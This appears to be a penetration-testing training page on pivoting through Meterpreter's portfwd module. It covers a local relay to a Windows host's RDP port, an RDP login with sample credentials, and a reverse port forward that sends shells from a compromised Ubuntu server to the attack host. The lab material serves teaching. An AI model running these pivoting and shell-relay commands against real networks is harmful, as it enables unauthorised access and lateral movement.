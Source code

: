Port Forwarding
Port forwarding can also be accomplished using Meterpreter's portfwd module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.
```
help portfwd
```
```
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h        Help banner.
    -i <opt>  Index of the port forward entry to interact with (see the "list" command).
    -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
    -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
    -R        Indicates a reverse port forward.
```

Creating Local TCP Relay
example:
```
portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
The above command requests the Meterpreter session to start a listener on our attack host's local port (-l) 3300 and forward all the packets to the remote (-r) Windows server 172.16.5.19 on 3300 port (-p) via our Meterpreter session. Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.

Connecting to Windows Target through localhost
example:
```
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

Netstat Output
We can use Netstat to view information about the session we recently established. From a defensive perspective, we may benefit from using Netstat if we suspect a host has been compromised. This allows us to view any sessions a host has established.
example:
```
netstat -antp
```

Meterpreter Reverse Port Forwarding

Similar to local port forwards, Metasploit can also perform reverse port forwarding with the below command, where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host. We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port 1234 to our listener on port 8081.

We can create a reverse port forward on our existing shell from the previous scenario using the below command. This command forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port (-l) 8081. We will also configure our listener to listen on port 8081 for a Windows shell.
example:
```
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
